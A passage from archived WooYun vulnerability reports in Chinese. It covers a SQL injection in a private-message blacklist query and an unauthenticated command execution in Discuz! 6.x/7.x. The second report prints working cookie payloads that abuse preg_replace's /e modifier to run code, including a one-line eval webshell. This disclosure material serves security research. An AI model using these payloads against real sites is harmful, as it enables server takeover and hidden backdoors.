        $count = $_ENV['pms']->get_totalpms($this->user['uid'], $this->get[2]);//出库 
```

```php
function get_blacklist($uid){

        $user = $this->db->fetch_first("SELECT blacklist FROM ".DB_TABLEPRE."blacklist WHERE uid='".$uid."'");

        return $user['blacklist']; 
```

```php
$blackuser = str_replace(",","','",$blacklist);

                if($group){

                    $sqladd = ($group == 'owner') ? 'AND og=0' : 'AND og=1';

                }

                $query = "SELECT COUNT(*) num FROM ".DB_TABLEPRE."pms WHERE toid='$uid' AND delstatus!=2 AND drafts!=1 $sqladd AND `from` 
```


这个老洞也没修复 [`**.**.**.**/bugs/wooyun-2010-067410`](http://**.**.**.**/bugs/wooyun-2010-067410) 试试修复了把。

## 漏洞证明


## 修复方案

无尽的过滤。

# WooYun-2014-80723：Discuz!某两个版本前台产品命令执行（无需登录）

漏洞作者： [Jannock](http://www.wooyun.org/whitehats/Jannock)

来源：[`www.wooyun.org/bugs/wooyun-2014-080723`](http://www.wooyun.org/bugs/wooyun-2014-080723)

## 简要描述

最近总有人翻旧程序，我也翻一个出来！ Discuz!某版本虽然停止维护，但使用量还很可观，各大厂商或多或少都有使用。 有条件，直接存在命令执行，但目前大多默认配置直接支持。 此漏洞在互联网上公开过，但厂商不认为是漏洞？ 还是那句：没有 POC,你说个 jb！ 不登陆，直接执行

## 详细说明

影响版本：Discuz! 6.x/7.x 全局变量防御绕过漏洞

互联网比较有人公开过，看：[`**.**.**.**/dzvul/sodb/19/sodb-2010-01.txt`](http://**.**.**.**/dzvul/sodb/19/sodb-2010-01.txt)

那时描述是：Discuz! 6.x/7.x 全局变量防御绕过漏洞 POC : 缺

可能由于作者没有放出 POC，因此没有得到别人重视。

此漏洞利用的地方有很多，不限制这个命令执行。

漏洞原理就不说了，这里说说漏洞利用：

文件：

include/discuzcode.func.php

```php
function discuzcode($message, $smileyoff, $bbcodeoff, $htmlon = 0, $allowsmilies = 1, $allowbbcode = 1, $allowimgcode = 1, $allowhtml = 0, $jammer = 0, $parsetype = '0', $authorid = '0', $allowmediacode = '0', $pid = 0) {

    global $discuzcodes, $credits, $tid, $discuz_uid, $highlight, $maxsmilies, $db, $tablepre, $hideattach, $allowattachurl;

    if($parsetype != 1 && !$bbcodeoff && $allowbbcode && (strpos($message, '[/code]') || strpos($message, '[/CODE]')) !== FALSE) {

        $message = preg_replace("/\s?\code\\[\/code\]\s?/ies", "codedisp('\\1')", $message);

    }

    $msglower = strtolower($message);

    //$htmlon = $htmlon && $allowhtml ? 1 : 0;

    if(!$htmlon) {

        $message = $jammer ? preg_replace("/\r\n|\n|\r/e", "jammer()", dhtmlspecialchars($message)) : dhtmlspecialchars($message);

    }

    if(!$smileyoff && $allowsmilies && !empty($GLOBALS['_DCACHE']['smilies']) && is_array($GLOBALS['_DCACHE']['smilies'])) {

        if(!$discuzcodes['smiliesreplaced']) {

            foreach($GLOBALS['_DCACHE']['smilies']['replacearray'] AS $key => $smiley) {

                $GLOBALS['_DCACHE']['smilies']['replacearray'][$key] = '';

            }

            $discuzcodes['smiliesreplaced'] = 1;

        }

        $message = preg_replace($GLOBALS['_DCACHE']['smilies']['searcharray'], $GLOBALS['_DCACHE']['smilies']['replacearray'], $message, $maxsmilies);

    } 
```

注意到 119 行：

$message = preg_replace($GLOBALS['_DCACHE']['smilies']['searcharray'], $GLOBALS['_DCACHE']['smilies']['replacearray'], $message, $maxsmilies);

因此，直接 cookie 中带

GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();

即可执行。

请求中 Cookie 带

GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval($_POST[c])%3B;

即一句话木马，此后门漏洞十分隐蔽，不容易发现。

随便 google 验证了一下，发现还是有大量中招的。

## 漏洞证明




## 修复方案

这个你们应该懂！